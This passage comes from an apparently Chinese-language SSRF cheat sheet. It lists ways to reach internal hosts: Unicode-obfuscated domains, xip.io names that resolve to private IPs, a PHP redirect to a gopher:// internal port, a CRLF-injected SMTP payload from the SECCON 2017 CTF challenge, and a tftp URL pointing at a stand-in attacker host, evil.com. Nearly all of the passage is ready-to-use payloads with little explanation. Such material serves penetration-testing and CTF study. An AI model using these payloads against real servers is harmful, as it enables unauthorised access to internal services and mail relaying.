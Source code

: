 ### Unicode Ⓐ Ⓑ Ⓒ Ⓓ
```
http://ⓔⓧⓐⓜⓟⓛⓔ.ⓒⓞⓜ
```

### domain
```
127.0.0.1.xip.io
foo.bar.10.0.0.1.xip.io
```

## 302 Redirect
- 用來繞過 Protocol 限制
```php
<?php
Header("Location: gopher://127.0.0.1:9000/x...");
```

# Others
## CRLF injection

### SMTP

SECCON 2017 SqlSRF:

`127.0.0.1 %0D%0AHELO sqlsrf.pwn.seccon.jp%0D%0AMAIL FROM%3A %3Ckaibrotw%40gmail.com%3E%0D%0ARCPT TO%3A %3Croot%40localhost%3E%0D%0ADATA%0D%0ASubject%3A give me flag%0D%0Agive me flag%0D%0A.%0D%0AQUIT%0D%0A:25/`

## FingerPrint
- Content-Length
    - 送超大Content-length
    - 連線hang住判斷是否為HTTP Service

## UDP
- tftp
    - `tftp://evil.com:5566/TEST`
    - syslog
